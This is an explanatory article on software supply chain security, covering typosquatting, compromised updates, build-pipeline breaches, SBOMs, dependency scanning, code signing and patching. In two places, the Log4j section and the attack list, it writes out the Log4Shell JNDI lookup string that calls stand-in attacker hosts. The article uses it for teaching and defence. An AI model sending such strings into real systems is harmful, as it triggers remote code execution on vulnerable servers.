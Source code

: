 # Software Supply Chain Security: A Technical Deep Dive

Let’s get into the gritty details of **software supply chain security**. This isn’t just about ideas—it’s about code, tools, and how things break.

## What’s in the Supply Chain?

Your software isn’t built from nothing. It’s a mix of:

* **Source Code**: What you write.
* **Dependencies**: Libraries like `numpy`, `requests`, or `log4j`. You pull these from places like PyPI, npm, or Maven.
* **Build Tools**: Compilers, packagers (e.g., `gcc`, `webpack`), and CI/CD pipelines (e.g., Jenkins, GitHub Actions).
* **Third-Party Stuff**: APIs, cloud services, or pre-built binaries.

Every piece is a link. If one fails, the chain collapses.

## How Attacks Happen

Hackers don’t always smash your front door—they sneak through the back. Here’s how:

1. **Dependency Poisoning**: They upload a fake package to npm or PyPI with a name like `reqeusts` (see the typo?). You grab it by mistake—boom, malware.
2. **Compromised Updates**: They hack a legit project (e.g., SolarWinds) and inject code into an update. You install it, thinking it’s safe.
3. **Build System Takeover**: They hit your CI/CD pipeline. Think of the **Codecov breach**—hackers stole credentials and messed with builds.
4. **Old Vulnerabilities**: You use \`log4j 2.14\`. A flaw (CVE-2021-44228) lets hackers run code remotely. One line—\`${jndi:ldap://[evil.com/a}\`](http://evil.com/a%7D)—and you’re done.

## Technical Risks

* **Transitive Dependencies**: You use Library A. It uses Library B. B has a flaw. You’re screwed, even if A looks clean.
* **Unsigned Code**: No signature? No proof it’s legit. Anyone could’ve tampered with it.
* **Misconfigured Tools**: Your Docker image pulls from `latest`. Hackers replace it with junk. Game over.
* **Weak Provenance**: You don’t know where that `.jar` file came from. Was it GitHub or some shady server?

## Mitigation: The Tech Way

Here’s how to fight back, step by step.

1. **Software Bill of Materials (SBOM)**

* What: A list of every component in your software (e.g., `cyclonedx` or `SPDX` format).
* How: Tools like `syft` or `Dependency-Track` scan your project and spit out an SBOM.
* Why: You can’t fix what you don’t know.

2. **Dependency Scanning**

* What: Check for known vulnerabilities.
* Tools: `Dependabot` (GitHub), `Snyk`, `OWASP Dependency-Check`.
* Example: Run `snyk test` on your `package.json`. It flags `lodash < 4.17.21` (CVE-2021-23337).
* Fix: Update to a safe version (`npm install lodash@latest`).

3. **Code Signing**

* What: Cryptographic proof your code is yours.
* How: Use GPG or Sigstore. Sign a release with `gpg --sign myapp.tar.gz`.
* Verify: `gpg --verify myapp.tar.gz.sig`. If it’s tampered, it fails.

4. **Lock Down Builds**

* What: Make builds repeatable and safe.
* How: Use lock files (`package-lock.json`, `Pipfile.lock`) and pin versions (e.g., `requests==2.28.1`, not `requests>=2.28`).
* Extra: Run builds in isolated containers (Docker) with `--network none`.

5. **Provenance Tracking**

* What: Prove where code came from.
* How: Tools like `in-toto` or SLSA (Supply-chain Levels for Software Artifacts).
* Example: SLSA Level 1 requires a build script. Level 3 needs a trusted builder (e.g., Google’s Borg).

6. **Patch Fast**

* What: Fix flaws ASAP.
* How: Monitor CVEs (e.g., NVD database) and patch. For Log4j, upgrade to `2.17.1`.
* Test: Use a staging environment first—don’t break production.

## Real-World Example: Log4j

* **Problem**: \`log4j-core\` versions 2.0–2.14.1 had a flaw. A string like \`${jndi:ldap://[attacker.com/a}\`](http://attacker.com/a%7D) triggered remote code execution.
* **Attack**: Hacker sends this in a chat message. Your app logs it. They own your server.
* **Fix**: Update to `2.17.1`, disable JNDI lookups (`log4j2.formatMsgNoLookups=true`), or ditch Log4j for something lighter.
* **Lesson**: One tiny library can burn everything down.

## Tools You Need

* **Static Analysis**: `SonarQube` or `CodeQL` to spot bad patterns.
* **Container Scanning**: `Trivy` or `Clair` for Docker images.
* **Runtime Protection**: `Falco` to catch weird behavior in production.
* **Verification**: `cosign` (Sigstore) for signing containers.

## Standards Are Coming

* **SLSA**: Google’s framework. Levels 1–4, from basic logging to tamper-proof builds.
* **EU CRA**: By 2025, you’ll need SBOMs and audits for critical software. Non-compliance? Fines.
* **NIST SSDF**: US guidelines for secure development. Follow it or lose contracts.

## Wrap-Up

Software supply chain security is a beast. It’s not just “update and pray.” You need tools, processes, and discipline. One weak link—say, an unpatched `openssl`—and hackers win. Dig into your dependencies, sign your builds, and scan everything. It’s hard work, but the alternative is worse.



